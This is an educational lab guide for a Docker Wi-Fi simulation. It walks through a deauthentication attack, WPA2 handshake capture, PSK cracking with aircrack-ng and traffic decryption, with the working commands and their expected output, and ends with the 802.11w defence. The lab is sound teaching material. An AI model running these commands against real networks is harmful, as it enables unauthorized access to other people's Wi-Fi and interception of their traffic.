# Wi-Fi Deauth & WPA2 Cracking Guide

A step-by-step guide for performing a deauthentication attack, capturing a WPA2 4-way handshake, cracking the PSK, and decrypting traffic — all inside a `mac80211_hwsim`-based Docker lab with three containers: `ap`, `client`, and `attacker`.

> **For educational use only.** Run this exclusively against your own lab network. Deauthing or cracking networks you don't own is illegal in most jurisdictions.

---

## Lab Topology

```
┌────────────┐    beacons     ┌────────────┐
│     AP     │ ─────────────► │   Client   │
│  TestWiFi  │   4-way HS     │            │
│ ch 6, WPA2 │ ◄────────────► │            │
└────────────┘                └────────────┘
        │                            │
        └──────────► seen by ◄───────┘
                      │
              ┌───────▼────────┐
              │   Attacker     │
              │ wlan2: monitor │
              └────────────────┘
```

- **AP** (`ap`): `wlan0`, BSSID `02:00:00:00:00:00`, channel 6, SSID `TestWiFi`, WPA2-PSK
- **Client** (`client`): `wlan1`, MAC `02:00:00:00:01:00`
- **Attacker** (`attacker`): `wlan2`, monitor mode, channel 6

---

## Prerequisites

Start the initialization script:

```bash
chmod +x start.sh
./start.sh
```

Confirm all three containers are running:

```bash
docker ps
```

You should see `ap`, `client`, and `attacker`.





---

## Step 1 — Pre-flight checks

Verify each interface is in the expected state.

```bash
# AP should report type AP, channel 6, ssid TestWiFi
docker exec ap iw dev wlan0 info



# Client should report "Connected to 02:00:00:00:00:00, SSID: TestWiFi"
docker exec client iw dev wlan1 link



# Attacker should report type monitor, channel 6
docker exec attacker iw dev wlan2 info


```

Confirm the aircrack-ng suite is installed inside the attacker:

```bash
docker exec attacker which aircrack-ng airodump-ng aireplay-ng airdecap-ng
```

If any are missing, add `aircrack-ng` to your Dockerfile's `apt-get install` line and rebuild.

Grab the two MACs you'll need (they should match the defaults below):

```bash
docker exec ap     cat /sys/class/net/wlan0/address   # AP BSSID    -> 02:00:00:00:00:00
docker exec client cat /sys/class/net/wlan1/address   # Client MAC  -> 02:00:00:00:01:00
```

---

## Step 2 — Open two shells in the attacker container

You need **two terminals** inside the attacker.

**Terminal A** — for `airodump-ng` (runs continuously):

```bash
docker exec -it attacker bash
```

**Terminal B** — for `aireplay-ng` and the cracking/decryption steps:

```bash
docker exec -it attacker bash
```

Also its better to connect to the client docker and pin 10.0.0.1 to see it works and also to be some extra traffic

---

## Step 3 — Start capturing on the AP's channel

In **Terminal A**:

```bash
mkdir -p /tmp/capture
cd /tmp/capture
airodump-ng -c 6 --bssid 02:00:00:00:00:00 -w handshake wlan2
```

| Flag | Purpose |
|---|---|
| `-c 6` | Stay locked on channel 6 (no hopping) |
| `--bssid 02:00:00:00:00:00` | Filter on the target AP only |
| `-w handshake` | Write capture files prefixed `handshake-NN.*` |
| `wlan2` | Monitor-mode interface |

You should see the AP and the associated client appear:



**Leave this running.** When a handshake is captured the header will show:

```
CH  6 ][ ... ][ WPA handshake: 02:00:00:00:00:00
```

---

## Step 4 — Send the deauth (the actual attack)

In **Terminal B**:

```bash
aireplay-ng --deauth 5 \
    -a 02:00:00:00:00:00 \
    -c 02:00:00:00:01:00 \
    wlan2
```

| Flag | Purpose |
|---|---|
| `--deauth 5` | Send 5 deauth bursts (each burst = 64 frames) |
| `-a <BSSID>` | AP's MAC (spoofed as source of the deauth) |
| `-c <CLIENT>` | Target client MAC (destination) |
| `wlan2` | Monitor-mode interface |

Expected output:



Also we can see the connection beign broken in the pings:


### What is happening under the hood

`aireplay-ng` crafts raw 802.11 management frames:

- **Subtype**: deauthentication
- **Source**: AP's MAC (spoofed — WPA2 management frames are not authenticated)
- **Destination**: client's MAC
- **Reason code**: 7 ("Class 3 frame received from nonassociated STA")

The client's `wpa_supplicant` believes the AP kicked it off, disconnects, and immediately reconnects — performing a fresh 4-way handshake, which `airodump-ng` captures.

> If `aireplay-ng` complains *"Interface MAC doesn't match..."*, add `--ignore-negative-one` to the command.

---

## Step 5 — Confirm the handshake was captured

Look back at **Terminal A**. The top of the screen should now show:

```
CH  6 ][ Elapsed: 1 min ][ ... ][ WPA handshake: 02:00:00:00:00:00
```


That phrase appears the moment all four EAPOL messages of a complete handshake are in the capture file.

Stop `airodump-ng` with **Ctrl+C** once you see it.

Verify the capture is usable:

```bash
aircrack-ng /tmp/capture/handshake-01.cap
```

You should see:

```
   #  BSSID              ESSID      Encryption
   1  02:00:00:00:00:00  TestWiFi   WPA (1 handshake)
```



**"WPA (1 handshake)"** is what you want. Press Ctrl+C — we'll crack it in the next step.

---

## Step 6 — Build a wordlist

We can create a tiny wordlist containing the right answer keeps things instant:

```bash
cat > /tmp/wordlist.txt <<EOF
password
qwerty123
letmein
12345678
supersecretpass
hunter2
adminadmin
EOF
```

> In a real engagement you'd point this at something like `rockyou.txt`. The mechanics are identical — only the runtime changes.

---

## Step 7 — Crack the PSK

```bash
aircrack-ng -w /tmp/wordlist.txt \
            -b 02:00:00:00:00:00 \
            /tmp/capture/handshake-01.cap
```



### What `aircrack-ng` is doing per candidate

1. `PSK = PBKDF2-HMAC-SHA1(candidate, ssid="TestWiFi", iter=4096, len=32)`
2. `PTK = PRF(PSK, ANonce, SNonce, AP_MAC, Client_MAC)` — all four values are in the captured handshake
3. Take **KCK** = first 16 bytes of PTK
4. Compute `MIC = HMAC(KCK, EAPOL_msg_2)`
5. Compare with the MIC captured in the handshake

A match is cryptographic proof — no false positives.

---

## Step 8 — Decrypt the captured traffic

```bash
airdecap-ng -e TestWiFi \
            -p supersecretpass \
            /tmp/capture/handshake-01.cap
```

`-e` is required because the SSID is used as salt in PSK derivation.

Expected:



The frames that are not decrypted are the ones sent before

A new file appears next to the original: `handshake-01-dec.cap`.

Inspect plaintext traffic:

```bash
tcpdump -r /tmp/capture/handshake-01-dec.cap -nn "icmp or arp" | head -30
```

Every frame on the "secure" Wi-Fi is now readable.




## Cleanup between runs

```bash
docker exec attacker rm -f /tmp/capture/handshake-*
```

Monitor mode persists across captures — no need to re-enable it.

---

## Troubleshooting

| Symptom                                               | Fix                                                                                                                            |
| ----------------------------------------------------- | ------------------------------------------------------------------------------------------------------------------------------ |
| `WPA handshake:` never appears in airodump            | Start airodump **before** the deauth; confirm `-c 6`; confirm the client is associated; try `--deauth 0` for continuous deauth |
| `aircrack-ng` says *"No valid WPA handshakes found"*  | Capture is incomplete — deauth again. Verify with `tshark -r handshake-01.cap -Y eapol`                                        |
| `aireplay-ng` says *"Interface MAC doesn't match..."* | Add `--ignore-negative-one` to the command                                                                                     |
| `aircrack-ng` finishes the wordlist without a hit     | Your wordlist doesn't contain the password — `grep supersecretpass /tmp/wordlist.txt` to confirm                               |
| Capture is cluttered with unrelated frames            | You forgot `--bssid` — restart airodump with the filter                                                                        |

---

## Tool recap

| Tool | Role |
|---|---|
| `airodump-ng` | Passive scan and handshake capture |
| `aireplay-ng` | Inject forged deauth management frames |
| `aircrack-ng` | Offline brute-force the PSK from the handshake |
| `airdecap-ng` | Decrypt captured traffic using the cracked PSK |

---

## What this demonstrates

1. **WPA2 management frames are unauthenticated** → spoofed deauth works.
2. **The 4-way handshake's MIC is verifiable offline** → captured handshake = offline cracking target.
3. **A weak PSK falls instantly** — AES-CCMP itself isn't broken; the password is the weak link.
4. **PSK recovery breaks past *and* future sessions** → WPA2-PSK has no forward secrecy.

### Next experiment — defense

Enable Protected Management Frames in both `hostapd.conf` and the client's `wpa_supplicant` config:

```
ieee80211w=2
```

Restart the lab and rerun Step 4. The client will now ignore unsigned deauth frames — the attack fails. This is the 802.11w / WPA3 defense in action.